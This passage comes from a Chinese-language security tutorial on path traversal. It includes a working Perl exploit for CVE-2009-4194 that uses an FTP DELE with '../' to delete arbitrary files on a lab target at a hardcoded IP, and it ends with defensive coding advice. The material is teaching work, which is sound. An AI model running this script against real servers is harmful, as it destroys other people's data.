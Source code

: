 上述代码一方面没有对上传的文件类型进行检查（这节课我们不探讨这个安全问题），另一方面没有检查filename就直接进行了拼接，因此攻击者只需要通过Burpsuite、ZAP等Proxy应用对Request进行拦截和修改filename属性即可利用路径穿越漏洞。

在了解典型的风险场景之后，我们来看一下实战中真正出现过的安全漏洞。

## 案例实战

#### **CVE-2009-4194**

该漏洞是一个目录穿越漏洞，影响的软件版本是Golden FTP Server 4.30 Free 以及 Professional版本、4.50版本（未验证），允许攻击者通过DELE命令删除任意文件。

启动MiTuan中的CVE-2009-4194靶机，这是一个Windows 7系统，内置了Golden FTP Server 4.30版本，并且已经预先设置好了FTP共享路径：

```plain
C:\Users\sty\Desktop

```

接下来构建我们的攻击程序，为了方便我们采用Perl语言。如果你使用的是Mac电脑，那么你可以无需配置环境，直接运行我们编写好的攻击程序体验效果：

```perl
use strict;
use Net::FTP

print "1";
my $ftp = Net::FTP->new("52.81.192.166", Debug => 1) || die $@;

$ftp->login("anonymous", "") || die $ftp->message;

$ftp->cwd("/Desktop/") || die $ftp->message;

# This deletes the file C:\Users\sty\test.txt
$ftp->delete("../test.txt");

$ftp->quit;

$ftp = undef;

```

通过上述的代码，我们可以看到 `C:\Users\sty\test.txt` 文件已经被删除了，我们成功穿越了FTP Server的限制，实现了了任意文件的删除！又一个神奇的漏洞被我们成功利用了，身为勇士的你成功地获取了城堡内宝藏的控制权。

## 防御方案

既然我们已经了解了漏洞的原理、发生的场景以及利用方式，那么我们要如何防御这种类型的攻击，并且预防潜在的漏洞出现呢？我们可以从不同的阶段出发，进行多维度安全建设，从而最大化地降低这类风险出现的概率。

**在编码实现阶段：**

1\. 假设所有的输入都是恶意的，使用“只接受已知的善意的”输入检查策略，也就是使用一些定义清晰且严格的参数格式；

2\. 输入都应该被解码为程序内部的处理格式，并且确保在应用系统没有被二次解码，防止攻击者通过编码或者二次编码进行绕过；

3\. 如果可能，为用户提供选项或者通过应用系统内部ID映射的方式进行对象访问，例如ID 1对应“info.txt”；

4\. 确保Error Message只包含最小必要信息，避免过于详细的信息展示，防止攻击者因此获取系统相关信息。
